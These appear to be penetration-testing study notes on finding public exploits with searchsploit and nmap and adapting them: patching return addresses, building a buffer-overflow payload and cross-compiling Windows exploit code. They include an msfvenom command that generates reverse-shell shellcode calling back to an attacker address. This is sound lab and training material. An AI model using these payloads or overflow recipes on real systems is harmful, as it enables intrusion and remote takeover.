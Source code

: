 # Locate Exploit
### Searchspliot
https://www.exploit-db.com/documentation/Offsec-SearchSploit.pdf
```bash
searchsploit -u #update db
#accurate remote/local/.. win/lin...
searchsploit remote smb microsoft windows 
--exclude="Poc" #Exclude unwanted
searchsploit vsftpd 2.3.4 -w # to db website

# play with nmap
Nmap -Pn 172.21.0.0 -oX results.xml
searchsploit -x --nmap results.xml
```
##### Include Exploit Binary
```bash
apt update && apt install exploitdb-bin-sploits
```
### Nmap NSE
```bash
grep -i exploit /usr/share/nmap/scripts/*.nse
nmap --script-help=clamav-exec.nse #查看脚本的使用说明
```
### Exploit Datebase
### Google
 `firefox --search "Microsoft Edge site:exploit-db.com"`
### GitHub
### [Packet Storm](https://packetstormsecurity.com/)
# Fixing Exploit
## Fix Return Addr
```c
/*替换成其他dll文件返回地址 jmp = 10 09 0c 83 libspp.dll*/
   unsigned char retn[] = "\xcb\x75\x52\x73"; //ret at msvbvm60.dll
//修改后
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```
## Fix Shellcode
create your own Shellcode
```bash
# -b:坏字符 --list-options:查看payload选项 -e x86/shikata_ga_nai
# -v: var name
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
## Change the overflow buffer
Via Debugger to decide the buffer size.Then get the correct shoot!  on the RETURN ADDR!
```c
memset(padding, 0x41, initial_buffer_size);
memset(padding + initial_buffer_size - 1, 0x00, 1);
```
## C
```c
#通常需要修改的也是在这三项中：偏移量，返回地址，shellcode
offset    = "A" * 780 
JMP_ESP   =  "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit   = offset + JMP_ESP + shellcode
```
### Cross-Compiling Exploit Code
```c
/*该代码有需要在windows主机上编译的头文件；
在kali主机中不可。此时就需要交叉编译*/
#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```
#### Cross-Compilier
```bash
sudo apt install mingw-w64

#使用mingw来编译利用程序
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
# 对于找不到winsock.h头文件时，可以连接本地DLL(-l)来链接ws2_32
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
```bash
sudo apt install wine
dpkg --add-architecture i386 && apt-get update && apt-get install wine32:i386
```
#### cross-architecture
	跨架构的C头文件
```bash
sudo apt-get install gcc-multilib -y
gcc 15285.c -o 15285 -m32 # -m32
```
